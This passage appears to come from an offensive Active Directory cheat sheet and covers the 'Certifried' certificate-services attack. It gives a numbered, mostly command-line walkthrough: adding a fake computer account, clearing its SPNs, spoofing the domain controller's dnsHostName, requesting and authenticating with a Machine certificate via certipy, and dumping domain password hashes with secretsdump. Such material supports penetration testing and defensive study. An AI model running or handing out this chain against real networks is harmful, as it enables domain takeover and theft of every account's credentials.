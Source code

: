 ### Certifried
**User** template certificate would identify and distinguish the certificate with the User Principal Name(UPN) of the certificate as _SubjectAltRequireUpn_ is in the `msPKI-Certificate-Name-Flag` attributes. However, **Machine** template distinguish computer accounts' certificates only by `dnsHostName` attribute which can be edited out and cause confusion in the KDC and attacker can request certificate as DC instead of the legitimate computer and results in a [DCSync](#dcsync) attack.

1. Add a fake computer account with [PowerMad](https://github.com/Kevin-Robertson/Powermad) or [addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
```bash
# Powermad
New-MachineAccount -MachineAccount 'FakeComputer' -Password (ConvertTo-SecureString -AsPlainText -Force 'Password123') -Domain domain.local -DomainController dc.domain.local -Verbose

# impacket
addcomputer.py domain.local/john:'Passw0rd1' -method LDAPS -computer-name 'JOHNPC' -computer-pass 'Password123'
```

2. Clear the SPNs attributes that relates to the current `dnsHostName` attribute.
```bash
addspn.py --clear -t 'FakeComputer$' -u 'domain\user' -p 'password' 'DC.domain.local'
```

3. Change dnsHostName attribute matching the domain controller
```powershell
# RSAT
Set-ADComputer THMPC -DnsHostName LUNDC.lunar.eruca.com
```

_Note that above steps 1-3 could be automated with my messy script [certifried.py](https://github.com/aniqfakhrul/certifried.py)_
```bash
python3 certifried.py range.net/peter:'Welcome1234' -dc-ip 192.168.86.182
```

4. Request certificate with [Certipy](https://github.com/ly4k/Certipy)
```bash
certipy req -u 'WIN-JLSLKICW6EP\$' -p 'PY2nc0ubG8WT' -target ca01.range.net -ca range-CA01-CA -template Machine
```

5. Authenticate with the requested certificate earlier
```bash
certipy auth -pfx dc01.pfx -dc-ip 192.168.86.182
```

6. [DCSync](#dcsync) and win
```bash
secretsdump.py domain.local/dc01\$@10.10.10.10 -just-dc -hashes :000000000000000
```

7. It is always recommended to cleanup the created computer account. _(This requires a privileged account)_
```bash
addcomputer.py range.net/Administrator:'Password123' -computer-name 'WIN-EAZXIGMWO1T$' -computer-pass 'mi#gKKWFlzxJ' -dc-ip 192.168.86.182 -delete
```
